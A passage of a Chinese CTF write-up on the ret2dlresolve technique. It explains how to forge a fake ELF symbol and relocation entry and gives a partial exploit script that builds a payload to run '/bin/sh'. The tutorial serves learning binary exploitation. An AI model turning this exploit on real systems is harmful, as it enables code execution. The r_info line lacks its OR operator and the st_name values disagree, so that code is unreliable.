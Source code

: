 继续看`_dl_fixup`源码这一句：

```
// 然后通过reloc->r_info找到.dynsym中对应的条目
const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
// 这里还会检查reloc->r_info的最低位是不是R_386_JUMP_SLOT=7
assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
```

我们首先要将`fake_sym`放到我们的`payload`中，再放之前先要注意到，`dynsym`里的`Elf32_Sym`结构体都是`0x10`字节大小，因此我们要先对即将注入的位置进行对齐。`fake_sym`正常会放在`base_stage+36`的位置，但不满足对其要求，对齐是`0x10 - ((fake_sym_addr - dynsym) & 0xf)`字节。故真正的`fake_sym`地址要加上这部分。先在`payload2`的`fake_reloc`后补一些A，再写入假的`sym`。

为了定位到这个假的`sym`，要修改之前已经控制的`r_info`（`sym`通过`reloc->r_info`获取在`dynsym`的偏移）。我们已知了我们注入假的`sym`的地址和`dynsym`地址，偏移为`index_dynsym=(fake_sym_addr - dynsym) / 0x10`（对齐）。实际找的时候，`ELF32_R_INFO(sym, type)`的算法是`(((sym)<<8)+(unsigned char)(type))`，也就是说我们的`r_info=(index_dynsym << 8) 0x7`（或上`0x7`是因为`_dl_fixup`里面有个`assert`，要让`type=7`）。

定位到假的`sym`以后，我们就要考虑`sym`填什么了，根据如下定义：

```
typedef struct
{
    Elf32_Word st_name;     // Symbol name(string tbl index)
    Elf32_Addr st_value;    // Symbol value
    Elf32_Word st_size;     // Symbol size
    unsigned char st_info;  // Symbol type and binding
    unsigned char st_other; // Symbol visibility under glibc>=2.2
    Elf32_Section st_shndx; // Section index
} Elf32_Sym;
```

前面我们在最后分析的时候，看到的`sym`是这样的：

![](https://lgyserver.top/wp-content/uploads/2022/04/1-5.png)

所以我们暂时不改变它，照样写回去，这里的`0x42`就是`st_name`在`dynstr`的`offset`,`0x12`就是`type`。在这里我们只关注`name`和`type`，其他的用什么补齐不重要。

所以我们有了下面的代码：

```
...
cmd = "/bin/sh"
plt_0 = 0x08049020
rel_plt = 0x08048364
reloc_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']

dynsym = 0x0804820c
fake_sym_addr = base_stage + 36 # 原先的位置
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align # 对齐之后的位置
index_dynsym = (fake_sym_addr - dynsym) / 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8)  0x7 # 计算offset，确保type为7
fake_reloc = p32(write_got) + p32(r_info)# 伪造reloc
st_name = 0x4c
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12) # 伪造sym

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(reloc_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # 伪造reloc的位置
payload2 += 'A' * align # 对齐0x10大小
```